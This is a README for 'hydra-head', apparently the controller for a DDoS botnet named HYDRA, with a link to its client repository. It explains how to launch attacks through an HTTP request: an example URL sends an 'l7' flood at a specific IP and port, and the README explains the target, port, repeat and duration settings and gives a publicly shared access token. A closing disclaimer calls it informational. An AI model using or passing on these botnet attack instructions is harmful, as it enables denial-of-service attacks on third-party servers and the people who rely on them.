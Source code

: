 # hydra-head
Head that manages HYDRA botnet clients
Client (https://github.com/devsofvoid/hydra-client)

# Usage
In order to use a botnet, you must have at least one client

An example of sending an attack request:
`http://localhost:3000/?token=HEREMUSTBETOKEN&method=l7&target=109.71.9.87&port=80&repeats=10&duration=5`

Token - You can create your token on the https://account.swizar.ru or use public key (`4OxfX3Jm45HaNcKh88VmVr0MrmiLsMTeGanWKddB`)
Method - Choose the method by which you will attack (Available only l7)
Target - Specify the target to be attacked (**without http:// or https://**, only domain)
Port - Specify the target port
Repeats - Specify repeats of attack
Duration - Specify the attack duration (in minutes)

# Disclaimer ⚠️
This script is for informational purposes only. The author is not responsible for any damage caused.
